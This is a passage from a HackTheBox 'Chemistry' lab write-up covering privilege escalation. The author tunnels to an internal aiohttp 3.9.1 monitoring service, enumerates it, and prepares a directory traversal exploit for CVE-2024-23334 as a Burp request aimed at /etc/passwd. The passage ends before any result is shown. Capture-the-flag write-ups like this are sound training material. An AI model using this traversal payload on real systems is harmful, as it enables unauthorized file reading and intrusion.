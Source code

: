 # Root

Remembering back to that service it would be worth determining what is there. I will need to ssh tunnel so I can access the local port.

```bash
ssh rosa@10.129.29.110 -L 7777:127.0.0.1:8080
rosa@10.129.29.110's password: 
rosa@chemistry:~$ 
```

## internal monitor

{% include img_link src="/img/chemistry/chemistry_6_8080_monitoring" alt="port_8080_monitoring" ext="png" trunc=600 %}

```bash
dirsearch -u http://localhost:7777

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/raccoon/_hacking/HackTheBox/6_Season/Chemistry/reports/http_localhost_7777/_24-10-19_22-55-54.txt

Target: http://localhost:7777/

[22:55:54] Starting: 
[22:56:21] 403 -   14B  - /assets/
[22:56:21] 403 -   14B  - /assets

Task Completed

whatweb http://localhost:7777
http://localhost:7777 [200 OK] HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], IP[::1], JQuery[3.6.0], Script, Title[Site Monitoring]
```

### CVE-2024-23334

*aiohttp/3.9.1*from what I can tell online appears to be vulnerable to a CVE centered around directory traversal. [https://github.com/jhonnybonny/CVE-2024-23334](https://github.com/jhonnybonny/CVE-2024-23334). The exploit will continually check for more *../* until a positive result of **/etc/passwd** is read. This process can be done in burp since I have it open, and we will need some directory to use. Luckily I already found **/assets** so this will be our directory traversal target.

```bash
GET /assets/§§etc/passwd HTTP/1.1
Host: localhost:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Cookie: default-theme=ngax; css_dark_mode=false
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
